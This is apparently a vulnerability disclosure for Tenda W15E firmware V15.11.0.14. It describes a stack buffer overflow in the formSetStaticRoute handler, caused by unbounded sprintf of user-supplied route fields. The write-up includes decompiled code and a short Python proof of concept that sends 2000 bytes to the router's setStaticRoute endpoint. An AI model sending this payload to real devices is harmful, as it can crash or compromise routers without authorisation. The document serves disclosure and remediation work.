 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formSetStaticRoute` function. The `pRouteIndex` variable receives the `staticRouteIndex` parameter from a POST request and we let `iRouteIndex + 1 <= 10`. However, since the user can control the input of `staticRouteNet, staticRouteMask, staticRouteGateway, staticRouteWAN `, the statement

```c
net = websGetVar(wp, "staticRouteNet", byte_C3054);
mask = websGetVar(wp, "staticRouteMask", byte_C3054);
gateway = websGetVar(wp, "staticRouteGateway", byte_C3054);
wan = websGetVar(wp, "staticRouteWAN", byte_C3054);
// ...
sprintf((char *)sMibValue, "%s;%s;%s;%d;WAN0", (const char *)net, (const char *)mask, (const char *)gateway, iWanid);
sprintf((char *)sMibName, "adv.staticroute.list%d", iRouteIndex + 1);
```

can cause a buffer overflow. The user-provided `staticRouteNet, staticRouteMask, staticRouteGateway, staticRouteWAN` can exceed the capacity of the `sMibValue` array, triggering this security vulnerability.

![image-20240417103742378](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417103742378.png)

![image-20240417103724658](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417103724658.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setStaticRoute"
payload = b"a"*2000

data = {
        'staticRouteIndex': 1,
    	'staticRouteNet':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
